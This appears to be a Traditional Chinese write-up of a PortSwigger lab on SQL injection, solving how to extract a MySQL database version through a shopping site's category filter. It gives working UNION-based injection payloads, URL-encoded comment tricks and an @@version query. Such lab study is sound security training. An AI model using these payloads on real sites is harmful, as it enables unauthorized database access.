









# Querying the database type and version on MySQL and Microsoft

### 目標



該購物網站的產品類別篩選器有 SQLi 漏洞，使用 UNION 語句執行注入攻擊來取得資料庫的種類與版本。

讓資料庫取得以下字串：`8.0.42-0ubuntu0.20.04.1`

> [!TIP]
> Hint:
> 
> 可從 [PortSwigger 網站中的 SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 中，查找對各種資料庫有什麼不同的寫法。

---

### Solution

與上題一樣，只差在資料庫類型不一樣。一樣先得知欄位數量：

隨意選取任一產品類別並添加以下 Payload：

數字：
```sql
' UNION SELECT 1,2,3,4,5--
```

字串：
```sql
' UNION SELECT 'a','b','c','d','e'--
```

然而嘗試兩種 Payload 到非常多個欄位後依然回傳 500 的伺服器內部錯誤：



查看 cheat sheet，MySQL 的註解需要在 `--` 之後與之空一格：


真實的後端環境是 MySQL，題目包含 Microsoft 的原因是因為兩者在「**查詢資料庫版本**」上有相同的語法。

然而又因為多數瀏覽器會自動將網址最後面的空格刪掉，因此光打 `-- ` 依然會是錯誤的。有三種方式可以解決此問題：

- 在 `--` 後加上加號 `+`，網頁後端在讀取 `?` 後面的參數時，會自動把 `+` 解碼成空格：
    ```sql
    ' UNION SELECT 'a','b'--+
    ```

- 在 `--` 後加上 `%20`，`%20` 即是空格的網碼：
    ```sql
    ' UNION SELECT 'a','b'--%20
    ```

- 不用 `--`，用 MySQL 專有的井字號 `#`，`#` 後面還不需要空格，但 `#` 在網址列有特殊用途，因此要用它的編碼 `%23`：
    ```sql
    ' UNION SELECT 'a','b'%23
    ```





--> 有兩個欄位。

---

注入以下 Payload 取得 `8.0.42-0ubuntu0.20.04.1`：

```sql
' UNION SELECT 'a',@@version--+
```





---

> [!NOTE]
> 更好的小調整：使用 `NULL`
> 
> `NULL` 在所有 SQL 資料庫都能兼容任何資料型態，因此假設有兩個欄位，不用怕說藥的資訊在第二欄位，但第一欄位不知是什麼型態，直接用 `NULL` 就可以了。
> 
> 在這一個 Lab 與上一個求 Oracle 資料庫版本的 Lab 都剛好兩個欄位皆為字串型別，因此我使用的 `'a',banner`、`'a',@@version` 都沒有回傳錯誤。


